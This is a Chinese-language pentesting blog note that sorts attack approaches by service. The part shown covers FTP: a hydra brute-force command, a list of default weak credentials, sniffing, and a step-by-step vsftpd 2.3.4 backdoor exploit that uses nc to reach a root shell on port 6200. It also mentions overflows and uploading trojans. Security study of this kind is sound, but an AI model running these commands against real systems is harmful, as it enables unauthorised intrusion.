

简介：
最近遇到一个比较有意思的人, 问了我一个比较有意思的问题: 我有一个OA系统, 该如何获取系统的权限？
这个问题本身并没有什么意思, 但当我告诉他扫端口,、找服务、拿权限的时候, 他问我都有哪些端口和服务可以拿权限, 忽然间我发现自己忙于学习新知识却忽略了对已学知识的总结, 以至于学习的基础端口服务漏洞、大数据组件漏洞等无法脱口而出, 很尴尬啊, 只好把我的博客扔给他让他自己去找了.
本文将专门记录渗透中遇到的各种端口及服务的渗透思路, 并进行归类.（waitting for update）
文章目录
- 服务漏洞归类
- 常见端口服务的攻击思路
- 参考文章
服务漏洞归类
常见的服务漏洞无外乎remote、local, 其中又分为远程弱密码爆破、RCE、本地提权
弱密码与未授权访问类
在owefsad的漏洞分类中, 弱密码与未授权访问是一类问题, 均为非法访问服务, 只不过一个必定访问，一个有可能访问, 站在甲方爸爸的视角中来看, 如果弱密码没有成功爆破出弱密码就相当与没有问题.
接下来将按照服务的类别将该类的问题一一整理出来.
常见端口服务的攻击思路
ftp服务
文件传输协议(File Transfer Protocol, FTP)是一个约定网络上的两台主机之间如何传输文件的协议, 具体内容见RFC959, 基于此协议产生了大量的ftp软件, 如: vsFTPd、zFTPServer Suite、IIS FTP等.
1.ftp服务的攻击方式
- 爆破、匿名访问
- 嗅探
- 后门
- 远程溢出漏洞
- 跳转攻击
2.爆破与匿名访问
2.1hydra爆破:hydra -L /usr/share/wordlists/fasttrack.txt -P /usr/share/wordlists/fasttrack.txt -e nsr ftp://10.129.10.21
2.2常见弱密码: ftp/ftp、ftp/任意值或空密码、user/pass、anonymous/anonymous、anonymous/任意值或空密码
2.3匿名访问:不需要用户名密码, 可直接登陆
3.嗅探
打开当前机器网卡的混杂模式, 抓取网络上的ftp流量, 收集其中的明文信息.
4.后门
4.1linux vsftp 2.3.4版本存在后门: 在该版本中, 使用带有”:)”的用户名登陆目标机器时, 目标机器的6200端口启动, 可通过nc或telnet连接目标端口进行远程shell控制1
2
3
4
5
6
7
8
9
10# 触发漏洞: ftp连接目标主机, 在用户名中输入任意字符+":)"，密码中输入任意值; 按回车之后触发
ftp 172.16.88.170
Name (172.16.88.170:root): ftp:)
331 Please Specify the passwd.
Password: pass
# 漏洞利用
nc 172.16.88.170 6200
id
uid=0(root) git=0(root)

5.远程溢出漏洞
5.1IIS FTP 6.10.1版本存在远程溢出漏洞
6.跳转攻击
7.ftp后渗透
后渗透阶段可通过ftp下载文件、搜索敏感信息,上传木马获取shell等.